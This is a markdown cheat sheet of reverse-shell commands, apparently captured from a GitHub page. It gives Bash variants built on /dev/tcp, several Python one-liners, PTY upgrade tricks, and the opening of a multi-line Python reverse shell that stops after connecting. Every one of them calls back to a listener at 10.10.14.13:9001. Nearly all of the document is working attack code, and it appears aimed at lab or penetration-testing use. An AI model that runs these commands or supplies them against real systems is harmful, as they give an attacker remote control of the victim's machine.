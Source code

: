 ### Bash Variations
```bash
# Using exec
exec 5<>/dev/tcp/10.10.14.13/9001;cat <&5 | while read line; do $line 2>&5 >&5; done

# Using /bin/sh
/bin/sh -i >& /dev/tcp/10.10.14.13/9001 0>&1

# With specific shell path
/usr/bin/bash -i >& /dev/tcp/10.10.14.13/9001 0>&1
```

---

## Python Reverse Shells

### Python 2 & 3 Compatible
```python
# Standard Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Python with pty spawn
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/sh");'

# Python3 specific
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python PTY Shell
```python
# Interactive shell with PTY
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Local Python PTY spawn (after getting basic shell)
/usr/local/bin/python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Advanced Python Shell
```python
# Multi-line Python reverse shell
import socket, subprocess, os, threading, sys

def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.13", 9001))
```